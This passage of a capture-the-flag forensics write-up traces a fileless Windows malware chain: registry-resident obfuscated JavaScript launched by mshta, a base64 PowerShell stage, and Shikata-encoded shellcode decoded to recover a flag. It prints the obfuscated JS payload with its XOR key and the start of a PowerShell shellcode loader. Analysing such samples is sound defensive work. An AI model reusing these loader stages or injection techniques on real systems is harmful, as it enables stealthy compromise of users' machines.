        outdir.mkdir(parents=True, exist_ok=True)
    
        text = dump_path.read_text(errors="ignore")
        hex_payload, key = parse_orhmkbye_dump(text)
        print(f"[+] Parsed Jhp39 hex length: {len(hex_payload)} chars")
        print(f"[+] Parsed XOR key length: {len(key)} chars")
    
        js_blob = decode_js(hex_payload, key)
        write_artifact(outdir / "orhmkbye_stage.js", js_blob)
    
        ps_blob = extract_ps_from_js(js_blob)
        write_artifact(outdir / "orhmkbye_stage.ps1", ps_blob)
    
        sc_blob = extract_sc32(ps_blob)
        write_artifact(outdir / "orhmkbye_sc32.bin", sc_blob)
    
        decoded_sc = decode_shikata_stage(sc_blob)
        write_artifact(outdir / "orhmkbye_sc32_decoded.bin", decoded_sc)
    
        cmd_blob = extract_cmd_blob(decoded_sc)
        print(f"[+] Extracted cmd blob: {cmd_blob}")
    
        transformed, token, flag = decode_final_flag(cmd_blob)
        write_artifact(outdir / "flag_transform.bin", transformed)
        (outdir / "flag_token.txt").write_text(token + "\n")
        (outdir / "flag.txt").write_text(flag + "\n")
    
        print(f"[+] Token: {token}")
        print(f"[+] FLAG: {flag}")
    
    if __name__ == "__main__":
        main()
    
    ```
    
    Detailed Step-by-Step Flow I Used To get extracted shellcode
    
    1. Identify where flag logic lives.
    I started from Sysmon timeline to map execution chain. The key pivot is regsvr32 setting a class open-command that launches mshta and reads registry value HKCU\Software\lirs\orhmkbye. That tells you the challenge/flag path is likely registry-resident JS in orhmkbye, not the large malware PE branch (WmmbDZ) used for network payload.
    2. Dump and analyze orhmkbye from the user hive. I extracted the raw registry value from:
    NTUSER.DAT (/C/Users/FlagYard/NTUSER.DAT)
    
    The value contains obfuscated JS with:
    
    1. a large hex string variable (Jhp39)
    2. an XOR key variable (BfynX5vgv6j)
    3. a loop that decodes bytes and eval(...) executes them
    4. Decode the JS stage.
    In script recover_flag_from_orhmkbye.py(recover_flag_from_orhmkbye.py:28), I parse those two vars, then perform repeating-key XOR against bytes.fromhex(Jhp39).
    That recovers clear JS to /tmp/recovered_flag/orhmkbye_stage.js.
    5. Extract and decode embedded PowerShell.
    The decoded JS contains FromBase64String('...'), which is parsed in recover_flag_from_orhmkbye.py (recover_flag_from_orhmkbye.py:42).
    Decoded PS is written to /tmp/recovered_flag/orhmkbye_stage.ps1.
    6. Extract $sc32 shellcode byte array.
    The PS script has inline shellcode [Byte[]] $sc32 = ... and runs it via VirtualAlloc + CreateThread.
    I extract this to /tmp/recovered_flag/orhmkbye_sc32.bin.
    7. Decode the Shikata stage correctly.
    This shellcode is Shikata-style self-decoding (fnstenv/pop decoder loop pattern).
    Instead of hand-decoding fragile offsets, I emulate it with Unicorn in recover_flag_from_orhmkbye.py (/recover_flag_from_orhmkbye.py:60).
    I stop emulation exactly after decoder loop completion (base+0x1b with ECX==0) and dump the in-memory decoded
    body:
    /tmp/recovered_flag/orhmkbye_sc32_decoded.bin.
    8. Pull the command that contains the encoded flag blob.
    From decoded shellcode I extract:
    cmd /c 'echo VkIEZsYWc6IFlzfnhGZCYpJygmJygqKi0uJ3soeSste30qKyd9Ly0rKnopLSksYg=='
    
    This is done in recover_flag_from_orhmkbye.py (/scripts/
    recover_flag_from_orhmkbye.py:86).
    
    1. Decode blob to token, then token to final flag.
    The final decode logic (implemented in recover_flag_from_orhmkbye.py (recover_flag_from_orhmkbye.py:94)) is:
    2. Base64 decode blob bytes.
    3. For each byte: nibble-swap + XOR 0x1f.
    4. Take byte window [15:47] -> token:
    96879875521h4g64bd254h2024e5626s
    5. Convert each char to low nibble (ord(c) & 0xf).
    6. If previous char is alphabetic, add 9 mod 16 to current nibble.
    7. Join as hex.
    
    Why This Method Is Reliable
    
    1. It follows observed execution path from forensic artifacts (registry + script chain).
    2. It decodes every real stage in order (registry JS -> PS -> shellcode -> cmd blob).
    3. It avoids false transforms by emulating shellcode decoder exactly.
    4. Final value is algorithmically derived and reproducible from raw evidence each run.
    
    Files Used (Input + Generated)
    
    1. Input evidence hive: NTUSER.DAT (/C/Users/FlagYard/NTUSER.DAT)
    2. Optional timeline confirmation: Microsoft-Windows-Sysmon%254Operational.evtx(/C/Windows/System32/winevt/Logs/Microsoft-Windows-Sysmon%254Operational.evtx)
    3. Dump output from script: orhmkbye_dump.txt
        
        ```jsx
        chntpw version 1.00 140201, (c) Petter N Hagen
        Hive <../C/Users/FlagYard/NTUSER.DAT> name (from header): <yer\C\Users\FlagYard\NTUSER.DAT>
        ROOT KEY at offset: 0x001020 * Subkey indexing type is: 686c <lh>
        File size 3506176 [358000] bytes, containing 340 pages (+ 1 headerpage)
        Used for data: 12850/3312192 blocks/bytes, unused: 246/179008 blocks/bytes.
        
        Simple registry editor. ? for help.
        
        > 
        \Software\lirs> get_val2buf: Long value: parts = 3, list = 8ba1c
        get_val2buf: Datablock 0 offset 33c020, size 3fd8 (16344)
                     : Point = 0, restlen = 8a0e, copylen = 3fd8
        get_val2buf: Datablock 1 offset 340020, size 3fd8 (16344)
                     : Point = 3fd8, restlen = 4a36, copylen = 3fd8
        get_val2buf: Datablock 2 offset 344020, size 3fd8 (16344)
                     : Point = 7fb0, restlen = a5e, copylen = a5e
        Value <orhmkbye> of type REG_SZ (1), data length 35342 [0x8a0e]
        kLvh3rmbAeGborOYXmMcoozk = "8WCHTDQe8jL96TQ9UrgeBKPjYMKn";  YbeMpBSqmJu0xLiiFY = "UCi8CVAxBsRTPZUEArJ1WniFEMbZhbvZ7bT4TtNqfVfP";  E1NADdaQfJCMRCwTvMiHIV = "31KcBqdvSRicNaGH79Akyjr8VYTqMHS";  LvswLlrJn5Q2aBlvcnIgHLN = "K0saIir59yOVzRGi";  gHLNH5sSWpEwHlrvORD = "amz85ez4LHPAKhIVyklzqYhQZ9ubrfFAUTn";  BCRzEWHyiUk3EHeMfIfZ = "yjplgCEjHnGSb3WiRNG6V8B9EpvVrl3yJxwqz1";  NTIAIjOTgFH3acz3CWrlIB = "NrNz88D8tzLXOSP4Jvj1shdBh2BDxVNWZZecRqvrqEJv6";  XAvWazQNjwMDuxXebDRJz9u = "Z6g02LZ4YxcVVZEH48sHBlnhjcNegycDEh4";  Jhp39 = "692745272f1801051c24232568351a524b13301c4406784b71751c18370531120003733016543a0b073d232e7c123a1c595c250316150b58051f0b0b2c753b25534c7a0925351a746c5012293765314d0f141f1d28203203005b26390a33381442106c78541a25240a28201c2923441823144929515d1f0438733a2f5b0a354e5c231f09743a2f011c193e7b335e4c6e0136217618033913644f1346760f650b0030055603460b1c0f003b470c1c7b651e122b75706f6507307135000303217624101508372934332631754f640c44787b401d4b7c353931743f5200782b333b767d120e1f21380511650c3c2e3c5d652e1108730d530d504d5b7c601b1c0017252828212331263b350c0d5f7d1c01302173516555084e534c0642340d5201652f0a2f1f140e440a393c1526040c2957313e063c45205e030028172b3c28564d194d5f521d313b19762b0b0c3a1619161f1e1674002c1434257d3b13131d6b0e021d005b0a354e67141c406a33087b1216060528617e7c110c6f056f432a46200a0b17717f222f0510652a1c126f0c2e5b022f154669136e240275706f6522343c6f0d4c684c104c4709032509111841591c1875015476181d774879565d7f4f6c11141658312a4b261b3f232b5a034814787c715b637045565043562e184f56381347711915253e3d073719242f2a15354a4e673f04160523186b24011c5d5466185f5732107759694e0e7d0748745a4011312056220434036c5063165b2b3039254b794c5e52550a0c4c0707745f106c785438323342470d122037026f27025303030d0234317f4d282a72710d1f233f4c63230b2008136c19255e5a401d313b65755b1c052b1f7105472d637e051d220c18171148220a1618351b6a2b011b2920120c2d2c02143f0c23253a5c0f2403141d3f2e402d284108275f0f3d5d476732002535230b27017f7f4a153c61222f2a150542782d77093203113361071b3e090e3c01073f11125b0b0f0e3d0d79245f0c15077832100d0b792f260325102d223e28497a7176630f3f5547193a2027130d0127567d7539241a7f091803207415782240190c121c01323220406337225727316f0c51090a0633657f053f0507320335032c3567590c3d34011a2619021e616b055a321272010d2a25023d023633546c7414147e092b281925152b6b2e5c2a021c6633082f0c3c7a2d096d35302f2f6760341216013229291430267d1a71033b09192e205c3421161b0d30774c11543c1854680438223319127202697e432e0b234f15321b4e0d344733567a39210e3a3b5232215608227b33111f3571361137611c02505a2325281946053303572524250b1a2f0410203a636d21692636695e01092b212628210f700d7f3e370d5b07231f1576435b05637d31053c1914012e3a40353c0d4224114f44080f1a241b2030030c2b293a2c143059520121100d042207145a375d5a137b173f6b57382d2430470d01565660043232156f015113310a47505766243719633a0a322c036338250813216f037c3a1e0c32651d16363b3e701b1b071636630b0e3101050127303f13557f125a361d6e430d2e2d0e1003170f7a675d0b0a094c1b04023974286454411d381c3b0b17331c147e031d5a1b431014673d683a3a1131015d00321c220e743302661c05233e3f0f2e310320036e3e52556a0e7f3b3378041d2f373476625b19147a541d2936021d2502146d78643c0c2106162c235e06386f47380c2101273b183d1929503d6724021a1f0d212d5b360a221f305e1007251263541e5c082f6266054c2a21212b0b0a596d613b0a3c710c2b1e15033449074d30042e01232304213d4a3a596e1a1411205b1d1d302434790e2b3401033515381a2e543435123d61142d145a3458740773060f0b5c2d1d0e300008295700567e2a33160a091b3e32161e512362260c12040508361d477d3e045f3b3517117912191118167b2926643e3d2a211b10286103002d2f120b0c34281e787b166401027a5c06171f161603100a525d033d1918623f033721001001514e2c1d006730633700135008026d1e24021577073217061138360210321f1c0e08033b6200360a00070d12141a2c796e2d53233652793e0e2e31450a770502665a1a107a6b153600041e257d54551f6c3f1a021e0d1437411f0955163234440563022164672a35562325747f400e0e2200353051070a340f1c253a705311762223616766152d21223d211f5a41634a157f6b18502d150324473e637d65130e3b200744457e0d2c7e1c152f115904362024330c0e1b0c153d012f1657046a5e310f253a07723338165671077003137b71303008563f0d701e486e7114772e797f2a133405157a27752f1c091702062d1a07633a210913212e1d6a09110303101d0f0e0173291b2117520d77550c2f2f19262719330f500a11582819795902311f0f16032e0c7d715e0819086e0c040c3934284a1c7b120d2e020b175c463c7f351b5b1c24672f6726313a1216203702007621173c3434245c1b3d371b34260335011a5c7e306b3c0854533934392a180a2e027458421b0437542d360c0220357554551f6c3f0404280d2c43740022543847341862213a2104241f3529231f122b1a1b212540231054271a2f0410203a705f0d7225147b59190f2b55362f06375e537f3b0228710c203d3e0c385f007c1e2c283f283b333e1c4e353e724317010e5b0b003f24067828030f1e172320090e1b6a3f001423245c0e3e2a3856710c012a195f001c300a27130d03567a7d053a3a2c553b513b440d3c700d752f1c0914043432431a5d28074e101f141853191200082e09552b0729220635000525732d002d2d63270c450d0d5070204407684b7e141008013d0703017877771f16087e36380d472339751065110d003e0b0733462a6126046d354f2c176803281463632c323c1731090c340f3b3b05073e3c3e250f2b1c0e2962792f672c10096a04152d2f32301602797e461a2e2b5c0622083926406155560f00391f2f24342f287307096f24460c2e793e0d31682d2a3a3d2624777b1111312d48202426220a3b701c3021634e275f0f3d686316121f2e3e7518355d507f3e371b5c072b2a152916572d771a04293b503a3f2122080c066d023921467b181b37361e0823081f05040135282c59515f2d550f025c0e3e2a385671077003137b713c2c7a0a0e20053045656e3639156f7e08383f2f156337762a0412141e02224f046038074d2a22394061620e0f323a1d170b1314332d2107120e59592f3e34012e26442715536f0e42050d6e4a1c3a255e22762a0a5259631f0f1c7a1f383707282b0035532d227a1d20132411397a2e0c713137313f73103f3c176f3e305d2e301c22303233347e163d335d3a0e0d1b2d2066762b6b371b5f7c043b0b041915252c770c432c0476521639080726400711617b17393731010a3f1c4e06206e01021b2000240a2e17661235172c0d060522243a220036305419092b3d0420105d010b465411710223481331103506375e5f602f763561183b3623293403056c12391e013f60043149520c11081923651a4a351f202506132c150c11742614090919625e31543a1b00322d3a1e586c135d0e3955092d1b7b3c44082e0241565c353a035419143945021f69310120310d3a5b0a30471c5d28034e283e1b1f7b052b38123e05100a1136702d18222c2f5e260b00240515271e2812676f714b3d0d625c03140f56151c180a65636048220801240223420c286b367a120d18390b62341939520b075c34342f14021f1a2c1605323837183c0c261d34313b055e0556183f2706251c1d6640377d211b576766377c0547162e046201651c147a082e366b1b08195f11500f0333345a12312c28735d0a6f3c1a350f05180121643c292539051c1215120a27595c081e553c0a01351b304a605f110208205c77010d050a3e7520086344542f163a6b18546a2d1c384507720639293833203c4426432300501a143b24430b0e3c3d0d220500022b137c3a145b055101310e08102e0f15072b605c0c7814167b62011b27281c1e2f307e6d6e2a332b55192f002f161d51566632192132053420471c5d28034e2835311f62630e46050072090b013e291c3107173677140b2d05381916205c4b530a305d2f196a45332e3115380700277a776436217d6a7e031d223439600f4404160b3d3c182f00290b39005c2a3c3a3d633a6f3200382c2b2c17210c0c37262b24002224035c182506360e3072792378271b76733e377803330e7307036e471b0b150c0b3035100d3172037d0b142d1f2f242613286b033c0943121f35622b010c1c2e02265f310b0d271d18311b57212f0c061e3f3210243159511d62133d75783f15070f03230f2e5606783b3428750709372e170554297c2f66073f1e37283e185220384f153b1e11031f1b01361a030516180532283b090a017e2f1003211b0b74382a0e56750c561d0351473034010e1e0b111156797e102a026b3806173f23437c27432f180231131d36011774270c093f3521117d193f0e1f2e3c05221e2171020f36052178040b2b2f240b083f01146841335629125f471a003e01390c2a0f7f5d411f0e075f7c2f2300233f7b034c07163d31241802423e40180c753a1e3c2f63263f3b1930312f2c2121080711703805470b2a2c0b67353c000e3479502e7c0d2d5f7d1f1e30292733252b795303222a385f02293d471e314403790032331b0027023b385107326b05111b3e576315252630062a082e1c2c38110c2a0b02211e130b1e242d1a302a465f097903207549201e042e1c2e183546537b302435761c163d3a0c1a5a295d3f32071e0e64281f075e22235f0b3b3f01571c101e3a0e3215081b0e22382f12150b7d24005636001b223a211e047507460317705764231a1113090a0e5b794f0f240270270c031e33157e2c53781b33210e1d2d114277061c5f3f3e314369382f111c1f2c5122153122023e261822631b0029243b050b1e1e1e7c70230029234f571a312e112d3d35017c7c5e120c0c4f282c121f283c5a1353051d2d2f303912113d710813623101313b78366d2f02202c2f2731761c3601262f245800290d1b34210d105b20484f237c2c32537e040e2e2b3c237729624351350b275115322d10093a54556e21222d1b21380e38234e0826701a1f18254736153e3620061b18310b0d271c0c311b57212f0c041c3f3210243159520a48133d75783048071f03230f2e564d7b2b3428750706223a3d0554297c2f22043f1e37283e170b35384f153b1e1149082101361a030a041b2f32283b0905587f3f1003211b042c3a2a0e56750c590e007b47303401010e0b111156797e102816513806173f23417e1d432f180231591d1c011774270c0c2b2521117d193f471c143c05221e213c0225360521780b572915240b083f0e4d7c6b335629125f49193a3e01390c2a0b6867411f0e075025383300233f7b030106163d31241802453f7a180c753a11623963263f3b19307b3b16212108071139383f470b2a2c0b602306000e34795f706b372d5f7d1f1e793f0d33252b795307363a385f0229321a1e3144037900327a0c3a27023b385e15247b05111b3e572615352630062a073f081638110c2a0b00360e130b1e24220f242a465f0979036f6263201e042e1c2e183546537b302437770c163d3a0c15072b673f32071e0e613c1f075e22235f432f3f01571c101e3a180815081b0e227b3912150b7d24001d35001b223a211e006117460317705720361a1113090a01486d650f240270270c032433157e2c53301b09210e1d2d114177061c5f3f3e31447e122f111c1f2c52223f3122023e261b36591b00292434591c0e1e1e7c702c5c3e334f571a312e112e0735017c7c5101191c4f282c1210332b5a1353051d223f243912113d710702610b01313b7839353902202c2f273e2b1c2601262f24575f3e1d1b34210d105a23584f237c2c3d097e040e2e2b3c2c2b3f624351350b275115082d10093a5b0d7a21222d1b21380d39334e08267015450f0f4736153e3667063118310b0d28420e211b57212f03580a3f32102431560d1e62133d75783003072503230f2e59596f11342875070932392d0554297c2f6410151e37283e185436024f153b1e1e5b0b3101361a0305150c1532283b0905157e151003211b0b3f2e3a0e56750c5909176b4730340101441d2b1156797e1f7015513806173f23407d27432f18023e001e36011774270c423d3521117d193f0c0b3e3c05221e2e2c0225360521780b543d15240b083f0e036b51335629125f481a3a3e01390c2a0d6b5d411f0e075f353b3300233f7b0c5d06163d31241802432940180c753a11643973263f3b19307f2c2c2121080711712f3f470b2a2c0438353c000e34795f777f272d5f7d1f1e793c3733252b7953073600385f02293d001e31440379003d20183a27023b385105255105111b3e5760151f2630062a082f081638110c2a0b043634130b1e242d1c262a465f0979036e6163201e042e13770c2546537b30247e7636163d3a0c15063d5d3f32071e0e63281f075e22235f0b390501571c10112b0d1815081b0e227f3b12150b7d240f0e212a1b223a211e056207460317705763341a1113090a01486d4f0f2402702855171e33157e2c537b1b33210e1d2d1140603c1c5f3f3e314669282f111c1f230e20153122023e290a23731b002924341b1c1e1e1e7c70234629194f571a312e112e2d35017c7c51480c0c4f282c121f2f3f4a1353051d223a270312113d710702761b01313b7839333b28202c2f273e2e1c3601262f24575e3d371b34210d105820624f237c2c3d4f6a140e2e2b3c23713f584351350b280c15322d10093a5b0c7a1b222d1b21371f3b194e0826701a1d19254736153e362d042118310b0d271a0c1b1b57212f0c060a153210243159540958133d75783f10062503230f2e564c7b013428750709302d2d0554297c2039073f1e37283e185020284f153b1e11481c2101361a03055b183f32283b09055e6a051003211b0b3f393a0e56750c561c175147303401010c0a2b1156797e1f70027b3806173f23427d0d432f180231581e360117742703503f1f21117d193f461c043c05221e2e2f1535360521780b1d3d3f240b083f0e487f6b335629125f010d2a3e01390c25117f77411f0e075f7c3b3300233f7b0c5c07063d312418020e3e7a180c753a11213863263f3b1930322d3c2121080711363b05470b2a2c043f3606000e34795028681d2d5f7d1f1e792b3733252b79534c362a385f02293d431d0b44037900323d0c3a27023b385106315105111b3e572615252630062a082f1f3c38110c2a0b4a2224130b1e24220f2700465f09790c326263201e042e133e0c2546537b302b25771c163d3a0c15013e773f32071e0e603f25075e222350183b2f01571c101e3a1a1815081b0e22383802150b7d240054353a1b223a211e05622d460317705766371a1113090a0e5c7a650f2402702818172433157e2c537c1809210e1d2d110a74161c5f3f3e3e1b7f022f111c1f2c57362f3122023e261a36591b002924345c1f341e1e7c70234829234f571a31210a391735017c7c514b0d1c4f282c12103d28601353051d223f330312113d710858612101313b7836693838202c2f2731731f1c01262f2457152a1d1b34210d1f0134484f237c2c32517d040e2e2b3c237628624351350b275202222d10093a5b0e6d21222d1b21380e3b194e082670154418254736153e3666062118310b0d28440f1b1b57212f035e1d2f3210243156410948133d7578300e070f03230f2e5643783b3428750706232d2d0554297c2038132f1e37283e185221384f153b1e1e5b082101361a03055b182f32283b09055c7e2f1003211b0b76393a0e56750c565503514730340101471e2b1156797e1f3a01413806173f2c1e6927432f18023e02091c011774270c413c2521117d19301b1f143c05221e2e2c0135360521780b522905240b083f0e4c7c41335629125f041a003e01390c251f7c67411f0e075f353b0900233f7b030612063d31241802012a7a180c753a1e3c2f63263f3b193f222f3c2121080711382c3f470b2a2c0b672206000e34795f3d7f272d5f7d1f1e79280d33252b795c5b3500385f02293d450a21440379003230181027023b385105247b05111b3e576315252630062a073d091638110c2a045a2224130b1e2422452410465f0979032d6259201e042e1c28183546537b302437611c163d3a0c1a5e3d673f32071e0e642b35075e22235f40390501571c10112b0d1815081b0e2d253812150b7d240055223a1b223a21115c753d460317705763231a1113090a01017a4f0f2402702818030e33157e2c537a0f09210e1d2d1144743c1c5f3f3e3e1d7e282f111c1f230f35053122023e261b21591b00292434160b1e1e1e7c7023033d334f571a31210e3a2d35017c7c5e100e364f282c121f293c601353051d223f273912113d710858621b01313b7836212f2b2405210617210c0c37262b2f710b233503390f1d075d1d765f0a720d1b5f7914382e2f3705252c79764f31077f5f04272e23212a7d546e1f653f030706101237551b316b473c3418623d3b1b68201e50392f2228231c1b3a214538302215305e2d1f0b3f010e0b5a00365c7505152b21222a1b3e635864157a366a21372f2e77204306067d0428640525013126402428501c151e3c46082134230d13281a0c1132353b285707522b10033a3e003c13212f595a017717387f093d321a11130f05025a6e61002f150a0951002406337822400237240438342d3c14752c295a24233a035415150f09043c053867100f2d181018215c5c142d2a273a16205c497c420e552f09795f00481f2c162a131c7c580608081c533f2d311b31165e5d4612062d212513241d130b2211751b431b2c676436121630382b2b1472083537362f2f470b2a2c0b6321061c5e3d60572378271b5f7914382e2f3574092f0266471a1b1d572c361739071b72037d0b142d1f2a110217276008207b2001351f71361425132211312e210d160e1124155c7b2524250b1a2f0410203a705f0d72253d727766152b3e3a282625700d7f3b2b2d6d7c0d20130324472858026428383b200721254c3c3c0d422c0e3c46321e383d3425381f0f7413353a2a53045302290b3504142138030979621c6321006f483b237b20441e173c47575d22722d5501513b207d0766230d3837240405330c111f635c294110441b115209164408640152233b14362d35031636675d1d3e34021c093428166b0a165d061d6e5e0e211b0a3d01030966056032212169352c3647373b7510621b027f66242a2f123c7a2d096e271a2312741c212e023c2c2929220c2721241006247a082c370723271104273a58792378271b5f7914382e2f3705252f70047d3171764b2c261c45271f750d57103a04150011023f337808227b33111f35713611310b21280b2e390c02241111312d47231054271a2f0410203a705f0d72253d7173161e03211f230b250153543f1628730c33202e3e3f4a285f3039283b0d600435314d262f7d023921467b181b37361e0823081f0504283f02230b7a2b0c16272a0722121e497a71077003137b7130300a27130d0127567d753924067b1d1500207508693c653d061d635b3257021c722c0c53113e1f117b28191d300420112615143f160c0c1b3b493e173c3f240b08240237725105562d1979571e3a08013d070301787c064f071e5728281936233b70255301160b3120132438335021195b1c1a6632613e3f3f12162c2b2c17210c0c37262b2f7103305522660f7625051b620d1755336f08510048252a1f28370276624f1a700d6c1539104525257d08573160040f311a1f17377f1c336c1d40044466610a31072411350b3e220219312351267708305106372b29010b15734e2566516a62681e1602211033210b085e7f3f37235b22543615003f4a28591a2628152b14061b26510b2c6e27171e3c5c080f27211b0823000c741723140634026934350825162d2a205915445c02735439540024300f122217155301794c3227037b0d030c222807572079310d19210e0754203a5b013a423f1a660579172c2002007e52222c0c21033503003f675957312401151d24021e7a7e307b06346a61333103023f1729167a670332212162390068222b3f70135305163d312318270f3c7a2e005b3a3f253f74102b3f15163b2d18660d0c0c37262b2f710b2e272d342506360e3d60572e52571c0e540f097c22252b252f72755131000e5f06296a390715032f7d0b142d1f2a11023f337b15097f241a35355729151c102000361c18052c0e1108212e0925202a04372b0b182031450100600b147b59161e0025362827215d04790f7304710c203d3e0542782d060e27101e3f380437407226587a0215382c450b0006243413385d0f741f7a15161a056a2435090d140b78504050181a7f3c6e7a1810773b7d3417367a460c144c4106616a3a0f725507486f3863213b2e391e23392a23401c3c772540622a6c06311835383c113f3931203d252907005c303b125d7d5c192b1916465d36420c3f545c791c3103542d271e111053163575542a062e0235501f440464757b7f525d6f0b505a0e1f5b1a5e335f102a257b5b5a410103393520675f7a";  DytJP2tQpTFSCSPfCj = "JihKxAnKqmpPHXLXpFwSWS75itMzd9siGw";  iVzIlGRpmThwNOCL1KG = "dMu8EICKrYXXdxwaUrhHqwy9LmQoERde3472KqSopZ2";  SmjeHzofw6cwLeOb6BpRB = "X9S5J2H6uAeyQezWcwzPZrXk2IAWFPgBEU";  EzijgiB9PspsjpmUGT = "qJQTNYhedo17qygIRlh";  zWxyXEVqMTD9xOVPl4qJ = "9in6qk69cxs6u1MWY1vlmOG0LbrDUcoF5J";  wQ5kIBdQNgtKKtnlJzFYm5vi = "3DgKNXDhE2WOHzrFByxwYg4p6fhgkAwmZifaGWuxeJrc";  LqMt2n = "";  for(xQI8nL9yS = 0;  xQI8nL9yS < Jhp39.length;  xQI8nL9yS += 2)LqMt2n += String.fromCharCode(parseInt(Jhp39.substr(xQI8nL9yS, 2), 16));  kgyPNNw5dwbGQXunNbOgUy = "bc7XctQByu2UKFdc9YvmwhUB3gPQt72z";  pWnyRnFGYxfzvb9NaSF5drQ = "zrXXlTyHXew4xwhQf5lCndWx5qKO9cTvZDYMg";  CjqmG4rtcUjWCNzOLJpK = "pxr67Avhtw4dC5EZR";  sPDSdBAwGI1fFbcYkhESvZCV = "qEhOFTieJYw92DVqv9eS7JvtWHJTCbvFpV7";  OcxKNinMXDsMTZuSH8GpmV = "N1n1vRv9voSFMJfxHOQmTjoZd41ffvvUkdztWM9ZK0aZt";  BfynX5vgv6j = "3d4HUJViPevp9ok8rvVv0QXvQWKboVFEOvAbl0lgdlSlEwiy18D1dZ80WyIftDBf146xCO8OaZwDr";  Wcfvr3KUA7dQj = "";  for(s5tjXZAMqyTE0Zj = dUHeZSsh9Ein8ehXw = 0;  dUHeZSsh9Ein8ehXw < LqMt2n.length;  dUHeZSsh9Ein8ehXw++) {      Wcfvr3KUA7dQj += String.fromCharCode(LqMt2n.substr(dUHeZSsh9Ein8ehXw, 1).charCodeAt()^BfynX5vgv6j.substr(s5tjXZAMqyTE0Zj, 1).charCodeAt());      s5tjXZAMqyTE0Zj = (s5tjXZAMqyTE0Zj < BfynX5vgv6j.length - 1)?s5tjXZAMqyTE0Zj + 1:0;  }    debGISAgM8mZoOwhQl = "2THqj1AWcgvTh7aTBDtmQInzbMwQmTrIJbEwLk2wRLA";  L9abAniyzg0QJysBiOE = "2AQosRFzVVVFvWSO5";  G6ttaDIFtfXJ2rTTdCnLrm = "LnTu8pj7qE1o1uk9WOxG2URDId1qYH";  eval(Wcfvr3KUA7dQj);  dthS5nzOkjAWsQVGybC = "lapVyIgMFCDhGBkMY";  arTgKaUl7KUYRlKOz3pCA = "HgahwpeUlnHkCobMdwTbwtjAMDGwI7GFyV9idM4";  YBTJGZnZpktBQXq0wdkomLB = "BGQUvQLCa1GCSSoa5U6x3";  zBrSmpYsigYQbtw8fZqzdrel = "TXvxkwiywWNQtWoZc3fJq2xil7k9Jdkpgo266WuVst";  krqHBDMxarB2eoHmxkhm = "RQxQJFR7RBxKmbh68";  WVqaBpTVpt1M9ofdAOPggqR = "IcYyfpiGXQCm79GAnep3F2";
        
        \Software\lirs> 
        Hives that have changed:
         #  Name
        None!
        
        ```
        
    4. Generated decoded JS: /tmp/recovered_flag/orhmkbye_stage.js
        
        ```jsx
        ZCqozRWlLAUUQZqj9efjtW = "WzXSwWOu2RzdVlcQpB9eSehda2rO3hRfBmX1yCbxLqfz";
        emEVUyGAUKApWupbIR2ANB4 = "KrohGvZll2YAxyE69sWT6MF";
        mGE1DmVHzmz9UoxXyunNWbcd = "BG0AVYU3u62sd8I1ZjK4Fdz";
        Qv4zvBaMFHwqddEqDOHDw = "CpJ25SMu6Yc4NSptN2sTheJ6uQDidj45KgxJb85";
        PJDvFrcJNuwctCMo3MpfTM = "a7btBsPWj12VCIkPL";
        meK4f6kIBNvDjKUbABlM = "4joGmoFzSzkARtpHP1OZUVIMWtwq8bGji";
        VpFxZdq2tbBGNPJJiO = "p1dx8sE7weSy5OjbVcEcpYC0YB6RS";
        try {
            moveTo( - 100, - 100);
            resizeTo(0, 0);
            z9E = new ActiveXObject("WScript.Shell");
            (z9E.Environment("Process"))("legtuq") = "iex ([Text.Encoding]::ASCII.GetString([Convert]::FromBase64String('I2dncmZzYmxwYnBzDQpzbGVlcCgxNSk7DQp0cnkgew0KICAgIA0KI2VsYmNpbA0KICAgIGZ1bmN0aW9uIGdkZWxlZ2F0ZSB7DQogICAgICAgIA0KI2RkemwNCiAgICAgICAgUGFyYW0gKFtQYXJhbWV0ZXIoUG9zaXRpb24gPSAwLCBNYW5kYXRvcnkgPSAkVHJ1ZSldIFtUeXBlW11dICRQYXJhbWV0ZXJzLCBbUGFyYW1ldGVyKFBvc2l0aW9uID0gMSldIFtUeXBlXSAkUmV0dXJuVHlwZSA9IFtWb2lkXSk7DQogICAgICAgIA0KI25ucmV0DQogICAgICAgICRUeXBlQnVpbGRlciA9IFtBcHBEb21haW5dOjpDdXJyZW50RG9tYWluLkRlZmluZUR5bmFtaWNBc3NlbWJseSgoTmV3IC0gT2JqZWN0IFN5c3RlbS5SZWZsZWN0aW9uLkFzc2VtYmx5TmFtZSgiUmVmbGVjdGVkRGVsZWdhdGUiKSksIFtTeXN0ZW0uUmVmbGVjdGlvbi5FbWl0LkFzc2VtYmx5QnVpbGRlckFjY2Vzc106OlJ1bikuRGVmaW5lRHluYW1pY01vZHVsZSgiSW5NZW1vcnlNb2R1bGUiLCAkZmFsc2UpLkRlZmluZVR5cGUoIlhYWCIsICJDbGFzcyxQdWJsaWMsU2VhbGVkLEFuc2lDbGFzcyxBdXRvQ2xhc3MiLCBbU3lzdGVtLk11bHRpY2FzdERlbGVnYXRlXSk7DQogICAgICAgIA0KI2xxeWZrDQogICAgICAgICRUeXBlQnVpbGRlci5EZWZpbmVDb25zdHJ1Y3RvcigiUlRTcGVjaWFsTmFtZSxIaWRlQnlTaWcsUHVibGljIiwgW1N5c3RlbS5SZWZsZWN0aW9uLkNhbGxpbmdDb252ZW50aW9uc106OlN0YW5kYXJkLCAkUGFyYW1ldGVycykuU2V0SW1wbGVtZW50YXRpb25GbGFncygiUnVudGltZSxNYW5hZ2VkIik7DQogICAgICAgIA0KI2xyZGl4aA0KICAgICAgICAkVHlwZUJ1aWxkZXIuRGVmaW5lTWV0aG9kKCJJbnZva2UiLCAiUHVibGljLEhpZGVCeVNpZyxOZXdTbG90LFZpcnR1YWwiLCAkUmV0dXJuVHlwZSwgJFBhcmFtZXRlcnMpLlNldEltcGxlbWVudGF0aW9uRmxhZ3MoIlJ1bnRpbWUsTWFuYWdlZCIpOw0KICAgICAgICANCiNvb3BkDQogICAgICAgIHJldHVybiAkVHlwZUJ1aWxkZXIuQ3JlYXRlVHlwZSgpOw0KICAgIH0NCg0KICAgIA0KI3Bycmt0a3INCiAgICBmdW5jdGlvbiBncHJvYyB7DQogICAgICAgIA0KI2dtaHduc2sNCiAgICAgICAgUGFyYW0gKFtQYXJhbWV0ZXIoUG9zaXRpb24gPSAwLCBNYW5kYXRvcnkgPSAkVHJ1ZSldIFtTdHJpbmddICRNb2R1bGUsIFtQYXJhbWV0ZXIoUG9zaXRpb24gPSAxLCBNYW5kYXRvcnkgPSAkVHJ1ZSldIFtTdHJpbmddICRQcm9jZWR1cmUpOw0KICAgICAgICANCiN5a3J1cQ0KICAgICAgICAkU3lzdGVtQXNzZW1ibHkgPSBbQXBwRG9tYWluXTo6Q3VycmVudERvbWFpbi5HZXR